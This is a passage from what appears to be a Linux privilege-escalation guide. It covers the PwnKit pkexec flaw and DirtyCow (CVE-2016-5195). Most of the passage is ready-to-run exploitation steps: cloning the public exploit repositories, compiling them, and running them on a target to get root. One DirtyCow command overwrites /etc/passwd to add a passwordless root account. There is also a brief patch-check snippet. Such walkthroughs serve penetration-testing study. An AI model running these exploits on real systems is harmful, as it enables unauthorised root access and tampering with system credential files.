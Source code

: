 The vulnerability exists due to how pkexec handles command-line arguments, allowing an attacker to manipulate environment variables leading to arbitrary code execution as root.

#### Exploitation

```bash
# Check if the system is vulnerable
ls -la /usr/bin/pkexec
# If pkexec exists and is SUID, it may be vulnerable

# Download the exploit (on the attack machine)
git clone https://github.com/ly4k/PwnKit
cd PwnKit

# Compile the exploit
gcc -o pwnkit pwnkit.c

# Transfer to target and execute
./pwnkit

# Verify privilege escalation
id
# uid=0(root) gid=0(root) groups=0(root)
```

#### Mitigation Detection

To check if the system has been patched:

```bash
# Run the pkexec with --version
pkexec --version

# If patched, it will show version information
# If vulnerable, it may crash or exit without output
```

### DirtyCow (CVE-2016-5195)

DirtyCow (Dirty Copy-On-Write) is a privilege escalation vulnerability in the Linux kernel that allows a local user to modify otherwise read-only file mappings.

#### Technical Details

The vulnerability exists in the way the Linux kernel handles copy-on-write (COW) breakage of private read-only memory mappings, allowing a local user to gain write access to read-only memory mappings.

#### Exploitation

```bash
# Check if the system is vulnerable (kernel versions before 4.8.3)
uname -a

# Clone the exploit repository (on the attack machine)
git clone https://github.com/dirtycow/dirtycow.github.io
cd dirtycow.github.io/dirtyc0w

# Compile the exploit
gcc -pthread dirtyc0w.c -o dirtyc0w

# Transfer to target
# This example modifies /etc/passwd to add a root user
./dirtyc0w /etc/passwd "newroot::0:0:root:/root:/bin/bash"

# After exploitation, switch to the new root user
su newroot
```